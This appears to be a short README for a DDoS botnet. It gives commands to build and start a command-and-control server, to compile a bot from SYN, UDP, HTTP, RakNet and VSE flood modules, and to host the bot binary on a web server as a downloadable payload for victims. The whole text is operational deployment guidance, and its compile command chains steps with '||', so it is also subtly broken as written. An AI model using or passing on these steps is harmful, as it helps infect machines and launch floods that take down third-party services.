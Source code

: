 # How to compile cnc?
-------------------------
- Run this:
sh buildcnc.sh
-------------------------
screen ./server <botport> <threads> <cncport>
-------------------------
example: screen ./server 1338 10 1337
-------------------------


# How to compile and run bot
- You should change change ip in bot/main.c line 21 to your vps ip and bot port screened already
- Run: sh legacybotbuilder.sh and bins will be put into /var/www/html
- Payload compile command: cd bot || gcc -o bot checksum.c daemon.c http_attack.c \
    raknet_attack.c socket_attack.c syn_attack.c udp_attack.c \
    vse_attack.c main.c -Wall || mv bot /var/www/html
- Your payload: http://yourvpsip/bot
